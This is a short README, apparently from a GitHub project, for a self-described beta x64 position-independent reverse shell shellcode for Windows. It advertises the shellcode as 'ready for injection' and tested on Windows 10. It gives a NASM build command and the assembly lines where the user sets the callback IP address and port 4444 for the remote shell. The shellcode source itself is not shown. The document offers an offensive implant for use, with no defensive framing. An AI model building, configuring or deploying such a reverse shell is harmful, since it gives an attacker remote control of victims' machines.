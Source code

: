 # 🚀 x64 PIC Reverse Shell (BETA AF)

A **position-independent** reverse shell shellcode i put together for x64 systems. It works (tested on Windows 10), I built this sleep deprived and it's definitely a rough draft but expect cleaner code/docs soon.


### 🔥 Features (Kinda)
- Connects back to your IP/port for a shell
- PIC = Works anywhere in memory (in theory)
- Raw binary output ready for injection


## 👾 How to Build This Thing

**You’ll need:**
- A windows pc
- NASM installed


### Makefile Commands:
- `make all`: Compiles the source into a binary shellcode (`main.bin`).
- `make clean`: Deletes the compiled binary.

### Manual Build:
If you don’t want to use `make`, just do this:
```bash
nasm -f bin -g -O0 -o C:\Users\win10\Desktop\pic_implant\bin\main.bin src\main.asm
```

**Steps:**
1. **Edit `src/main.asm`**  
   Find these lines and replace with your IP/port:
   ```asm
       db "192.168.8.128", 0
       mov word [rsp+2], 0x5C11       ; ← 4444 (change this too)
  ```
